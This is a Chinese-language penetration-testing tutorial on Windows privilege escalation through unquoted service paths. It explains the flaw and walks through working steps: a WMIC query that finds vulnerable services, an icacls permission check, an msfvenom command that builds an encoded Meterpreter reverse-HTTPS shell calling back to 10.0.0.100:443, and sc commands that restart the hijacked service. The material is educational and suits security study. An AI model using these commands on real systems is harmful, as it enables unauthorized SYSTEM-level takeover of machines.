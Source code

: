 ## 0x1 不带引号的服务路径

漏洞利用条件：具有目标文件夹的写权限。

这个漏洞存在于二进制服务文件路径中Windows错误解释空格。这些服务通常都是以系统权限运行的，如果我们利用这些服务就可能提权到系统权限。例如如下文件路径：

```
C:\Program Files\Some Folder\Service.exe
```

上面文件路径中的空格，Windows会尝试寻找并执行以空格前单词为名字的程序，操作系统会在文件路径下查找所有可能匹配项直到找到一个匹配为止。例如如下例子，Windows会尝试定位并执行如下的程序：

```
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```

*Note:这种特性发生在开发人员没有将整个文件路径包含在引号内。将文件路径包含在引号内会降低这个漏洞的威胁。所以这个漏洞被称为“不带引号的服务路径(Unquoted Service Paths.)”*

如果我们在这个文件夹下放置一个精心构造名字的恶意文件，在服务重启后，我们就拥有以系统权限运行的恶意程序了。然而，在放置恶意软件前我们首先要确保我们拥有目标文件夹的权限。那么下面让我们来看下如何发现和利用这个漏洞。

首先，我们可以利用下面一行WMI命令查询（作者：*[@Danial Compton](https://twitter.com/commonexploits)*），列出目标机器上所有没有用引号包含的服务路径：

查看 wmic 帮助信息`wmic /?` 

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

[https://image.3001.net/images/20151129/14487725241584.jpg!small](https://image.3001.net/images/20151129/14487725241584.jpg!small)

有命中的！PFNet服务的路径没有使用引号包含同时路径中包含空格。这里我们想要利用需要有文件夹的权限。假设我们已经有了设备上的管理员权限，那我们可以使用Windows内建工具icacls查看路径中受影响文件夹的权限：

```
icacls "C:\Program Files (x86)\Privacyware"
```

[https://image.3001.net/images/20151129/14487725595778.jpg!small](https://image.3001.net/images/20151129/14487725595778.jpg!small)

注意第一行`BUILTIN\Users:(OI)(CI)(M)`：列出了每个用户具有的权限。(M)代表修改权限，这是我们具有的权限，可以进行读、写和删除文件夹中的文件和子文件夹。我们太幸运了！我们现在可以随意的创建和删除名为`Privatefirewall.exe`的恶意软件。那么开始吧！

*Note:如果我们拥有Privacyware文件夹写权限也能完成同样的事情，更多关于Windows权限的资料请参考MSDN的链接：[File and Folder Permissions](https://msdn.microsoft.com/en-us/library/bb727008.aspx)*

当我们利用MSFVenom生成一个可执行文件时，我们希望能够在本地管理员组(windows/adduser)里增加一个账户或者弹回一个系统权限的Meterpreter shell(如下面示例)。当然也可以进行其他的操作。

```
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=10.0.0.100 LPORT=443 -f exe -o Privatefirewall.exe
```

[https://image.3001.net/images/20151129/14487725969663.jpg!small](https://image.3001.net/images/20151129/14487725969663.jpg!small)

现在我们来执行我们的恶意软件，尝试先关闭在开启PFNet服务以弹回我们的shell。我们可以使用内建工具`sc`完成这些：

```
sc stop PFNet
sc start PFNet
```

[https://image.3001.net/images/20151129/14487726268716.jpg!small](https://image.3001.net/images/20151129/14487726268716.jpg!small)

没用！原来我们只有服务文件夹的操作权限，但是没有操作PFNet服务本身的权限。这种情况下，我们只能等待有人重启目标机器或者重头再来。

当目标机器重启后，Windows定位并重启了我们的恶意软件弹回了一个具有系统权限的Shell。

[https://image.3001.net/images/20151129/14487726765085.jpg!small](https://image.3001.net/images/20151129/14487726765085.jpg!small)

**Metasploit Module:** `exploit/windows/local/trusted_service_path`

这个模块只需要我们连接到了一个Meterpreter会话即可运行。

[https://image.3001.net/images/20151129/14487727423173.jpg!small](https://image.3001.net/images/20151129/14487727423173.jpg!small)

这里我们查看源代码发现，这个模块通过正则表达式筛选出没有用引号包含起来的服务并创建一个易受攻击的服务列表，之后尝试针对列表中第一个服务在其文件夹下面放置一个恶意可执行文件，然后重启重启服务并在重启服务后移除之前放置的恶意可执行文件。

*Note：在这个模块代码中我没有看见任何一处在尝试放置可执行文件失败后检测是否拥有目标文件夹权限的代码。这让我有些疑惑…*
